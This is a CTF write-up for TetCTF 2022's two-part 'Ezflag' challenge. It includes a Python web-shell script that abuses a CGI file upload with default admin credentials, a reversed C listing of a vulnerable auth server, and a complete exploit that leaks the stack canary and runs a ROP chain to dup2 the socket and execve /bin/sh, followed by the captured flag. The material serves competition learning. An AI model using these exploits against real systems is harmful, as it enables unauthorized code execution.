

Ezflag was a two-part series from TetCTF 2022. The second involved a pretty basic ROP, but in a rather uncommon environment.

# Ezflag level 1
I was AFK while people were solving this, so I'm not familiar with the details. Essentially, it's a web server running CGI, and uploading a file named `wtmoo.p./y` gives arbitrary Python execution. My teammate gave me a handy script that behaves like a shell.

```python
import requests

while True:
    x = input("> ")
    r = requests.post("http://18.191.117.63:9090", auth=requests.auth.HTTPBasicAuth("admin", "admin"), files={"file": ("wtmoo.p./y", f"import os; os.system({x!r})")})
    print(r.text)
```

The second flag is only readable by the user `daemon`. There's an `auth` server running under that user that we'll probably have to exploit. Fortunately, a misconfiguration caused this file to be unreadable, allowing me enough time to un-AFK and snipe my teammates.

Jokes aside, they gave me a few scripts to start with that were quite helpful.

wtmoo.py
```python
import socket
import base64

print("lmaooo")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 4444))
s.settimeout(5)
s.send(b"admin\nadmin$'\"\n")
try:
    print("wtf", s.recv(256))
except Exception as e:
    print("huh", e)
s.close()
print("done xd")
```

upload.py
```python
import requests

def upload_file(x):
    r = requests.post("http://18.191.117.63:9090", auth=requests.auth.HTTPBasicAuth("admin", "admin"), files={"file": ("wtmoo.p./y", x)})
    return r

r = upload_file(open("wtmoo.py", "rb"))
print(r.text)
```

I also added a `upload_file(b'pepega')` at the end because other people can just read your exploits (yikes).

# Reversing
We can download the file by using our "shell" to copy it to the uploads folder, then downloading like normal. It's a static-linked and stripped binary, so it's pretty large and takes a long time to analyze. But static-linked binaries also have lots of handy gadgets :oyes:

## Function Signatures
Function signatures can help recognize library functions in static-linked and stripped binaries. There is a good [LiveOverflow video](https://www.youtube.com/watch?v=CgGha_zLqlo) on the subject. I grabbed the [libc6_2.31-0ubuntu9_amd64.sig](https://github.com/push0ebp/sig-database/raw/master/ubuntu/libc6/20.04%20(focal)/libc6_2.31-0ubuntu9_amd64.sig) signatures (love u stong <3) and applied them as shown in the video.

Function signatures aren't perfect, but it's a good starting point. Following `entry` into `main` at `0x401780`, we can start reversing.

## Identifying More Symbols
The syscall wrappers are easy to identify. For example, this function obviously just immediately invokes syscall `0x29`, which is `SYS_socket`. We know the function's signature is `int socket(int domain, int type, int protocol)`, so we can edit it accordingly.



The function called at `0x4017e7` receives `"127.0.0.1"` as an argument, so it is most likely `inet_addr`. Using [this guide](https://www.geeksforgeeks.org/socket-programming-cc/) as a reference, we can pretty easily determine what this code is doing.

## Idenfitying Arguments
There's often calls like `socket(2, 1, 0)`. How do we determine what these constants mean? The easiest way I know of is to just use `strace`.

```
...
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
...
```

If there's an easier way to do this, please let me know!

## Full Source
Here's the full source, after renaming, retyping, and some rewriting.

```c
#include <arpa/inet.h>
#include <sys/socket.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int check_auth(char *input) {
  char username[8];
  char password[8];
  char *c;

  c = username;
  while (*input != '\n') {
    *c++ = *input++;
  }
  *c = 0;
  input++;

  c = password;
  while (*input != '\n') {
    *c++ = *input++;
  }
  *c = 0;

  if (strcmp(username, "admin") == 0 && strcmp(password, "admin") == 0) {
    return 1;
  }
  return 0;
}

void handler(int sockfd) {
  char buf[256];

  recv(sockfd, buf, sizeof(buf), 0);
  if (check_auth(buf)) {
    buf[0] = 'Y';
  } else {
    buf[0] = 'N';
  }
  send(sockfd, buf, sizeof(buf), 0);
}

int main() {
  int serverfd;
  int sockfd;
  struct sockaddr_in address;
  struct sockaddr_in client;
  int client_len;

  serverfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  if (serverfd > -1) {
    puts("[+]Server Socket is created.");
    address.sin_family = AF_INET;
    address.sin_port = htons(4444);
    address.sin_addr.s_addr = inet_addr("127.0.0.1");
    if (bind(serverfd, &address, sizeof(address)) > -1) {
      printf("[+]Bind to port %d\n", 4444);
      if (listen(serverfd, 10) == 0) {
        puts("[+]Listening....");
      } else {
        puts("[-]Error in binding.");
      }
      while (1) {
        sockfd = accept(serverfd, &client, &client_len);
        if (sockfd < 0) {
          exit(EXIT_FAILURE);
        }
        printf("Connection accepted from %s:%d\n",
            inet_ntoa(client.sin_addr), ntohs(client.sin_port));
        if (fork() == 0) {
          break;
        }
      }
      close(serverfd);
      handler(sockfd);
      close(sockfd);
    }
    puts("[-]Error in binding.");
    exit(EXIT_FAILURE);
  }
  puts("[-]Error in connection.");
  exit(EXIT_FAILURE);
}
```

# Exploiting
We can see that our input is stored on a stack buffer. There is no overflow in `handler`, but this string is passed to `check_auth`, which copies characters until the newline into tiny stack buffers! In fact, if you just run the server and `nc` to it, typing in anything results in a `*** stack smashing detected ***` because the second newline isn't even there, making the program copy characters indefinitely (until a newline shows up in memory by chance).

## tfw no pwntools
The environment we're running our solve script under is a little strange. Remember, it's uploaded to a server and executed there, so we don't have access to any Python modules besides the builtin ones. No worries, though—we can get a few primitives going.

```python
import socket
import struct

p64 = lambda x: struct.pack('<Q', x)

def connect():
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(('127.0.0.1', 4444))
  return s
```

## Leaking the Stack Canary
The presence of a stack canary is problematic. However, since this is a forking server, all connections will have the same canary! If we could find a way to leak the canary, then we would know its value for future connections as well.

The typical solution here is to do a partial overwrite of the canary, overwriting a single byte until the program does not crash. This would leak a single byte of the canary, and then each byte oculd be leaked in a similar fashion. Unfortunately, the server puts a NULL byte after the username and password, so we can not control the last byte written. We'll have to look for a different way.

The solution here is much easier. Notice how 256 bytes are sent back to us regardless of how much we input. What's sent back to us?

```
$ echo -ne 'admin\nadmin\n' | nc localhost 4444 | xxd
00000000: 5964 6d69 6e0a 6164 6d69 6e0a 93dd 5462  Ydmin.admin...Tb
00000010: b029 082b ff7f 0000 2b08 0000 0000 0000  .).+....+.......
00000020: 0300 0000 0000 0000 b029 082b ff7f 0000  .........).+....
00000030: 9c29 082b ff7f 0000 8860 4900 0000 0000  .).+.....`I.....
00000040: 0400 0000 0000 0000 88c6 4400 0000 0000  ..........D.....
00000050: 2000 0000 3000 0000 9029 082b ff7f 0000   ...0....).+....
00000060: d028 082b ff7f 0000 002a 5a23 93dd 5462  .(.+.....*Z#..Tb
00000070: 7f00 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 4868 f400 0000 0000 2b08 0000 0000 0000  Hh......+.......
00000090: 249c 4900 0000 0000 0028 082b ff7f 0000  $.I......(.+....
000000a0: 802b 4c00 0000 0000 0a00 0000 0000 0000  .+L.............
000000b0: 2013 4c00 0000 0000 7260 4900 0000 0000   .L.....r`I.....
000000c0: 402f 4c00 0000 0000 1810 4c00 0000 0000  @/L.......L.....
000000d0: 0000 0000 0000 0000 036d 4100 0000 0000  .........mA.....
000000e0: 1000 0000 0000 0000 2013 4c00 0000 0000  ........ .L.....
000000f0: 2b08 0000 0000 0000 0000 0000 0000 0000  +...............
```

Aha, the eight bytes starting at `0x68` look like the canary! There's the characteristic NULL byte in front, followed by seven random bytes. Verifying that this is, in fact, the canary is left as an exercise to the reader. Connecting a few times, it seems like the canary being at this location is consistent across connections.

```python
s = connect()
s.send(b'admin\nadmin\n')
deet = s.recv(0x100)
canary = deet[0x68:0x70]
print(canary.hex())
s.close()
```

## ROP Chain
Now that we have the stack canary, we can proceed with a ROP chain. Since the binary is static-linked, there's plenty of good gadgets to abuse. I won't go over most of the details, since there's already a boat-load of good ROP tutorials out there. But, the ROP chain itself is a little more interesting than the usual `execve("/bin/sh", 0, 0)`.

The problem here is that we're exploiting through a socket, so just popping a shell wouldn't give us access to it through `sockfd`. There's also limited space—256 bytes, minus the offset to the return address—so we can't do an open-read-write to our socket. Even if we could, `sockfd` is unknown to us.

We'll tackle that last problem first. Looking at the disassembly, we can see that `handler` stores `sockfd` in `ebp`, after which it isn't touched by `check_auth`. This means that, when our ROP chain executes (instead of `check_auth` returning), we have the value of `sockfd` in `ebp`. But how can we get it?

```
0x0000000000414cf3 : mov rdi, rbp ; call rax
```

This gadget does exactly what we need! As long as we can set `rax` to some `pop; ret` gadget, then everything is okay.

Now, let's fix our file descriptors. The syscall we need is `dup2`.

> The `dup()` system call creates a copy of the file descriptor `oldfd`, using the lowest-numbered unused file descriptor for the new descriptor.
>
> After a successful return, the old and new file descriptors may be used interchangeably.
>
> `dup2()`: The `dup2()` system call performs the same task as `dup()`, but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in `newfd`. If the file descriptor `newfd` was previously open, it is silently closed before being reused.

So what we're going to need is basically

```
dup2(sockfd, STDIN_FILENO);
dup2(sockfd, STDOUT_FILENO);
```

Hey! That `mov rdi, rbp` gadget does exactly what we need, since `sockfd` is the first argument here. Once we `execve("/bin/sh", 0, 0)`, we'll have access to both stdin and stdout through our socket. Then, we simply send over a `cat /flag2\n`.

Here's my code:

```python
buf = 0x4c3900 # some place in BSS where we can store "/bin/sh"
rax = 0x4497a7 # pop rax ; ret
rdi = 0x4018d1 # pop rdi ; ret
rsi = 0x40f67e # pop rsi ; ret
rdx = 0x40176f # pop rdx ; ret
www = 0x433e33 # mov qword ptr [rdi], rdx ; ret
sys = 0x417164 # syscall ; ret
rbp = 0x414cf3 # mov rdi, rbp ; call rax

chain  = p64(rax) + p64(rax) + p64(rbp) # mov rdi, sockfd
chain += p64(rsi) + p64(0) + p64(rax) + p64(33) + p64(sys) # dup2(sockfd, 0)
chain += p64(rsi) + p64(1) + p64(rax) + p64(33) + p64(sys) # dup2(sockfd, 1)
chain += p64(rdi) + p64(buf) + p64(rdx) + b'/bin/sh\0' + p64(www) # write "/bin/sh" to buf
chain += p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(rax) + p64(59) + p64(sys) # execve("/bin/sh", 0, 0)

s = connect()
s.send(b'\n' + b'A'*0x18 + canary + b'A'*8 + chain + b'\n')
time.sleep(0.5) # make sure we're executing /bin/sh
s.send(b'cat /flag2\n')
print(s.recv(512).decode())
```

We can test locally, and send it to the server with `upload.py`.

```
$ python3 wtmoo.py
00a7ae2f831cdbc5
ginkoid

$ python3 upload.py
0095c810051910ba
TetCTF{cc17b4cd7d2e4cb0af9ef992e472b3ab}
```
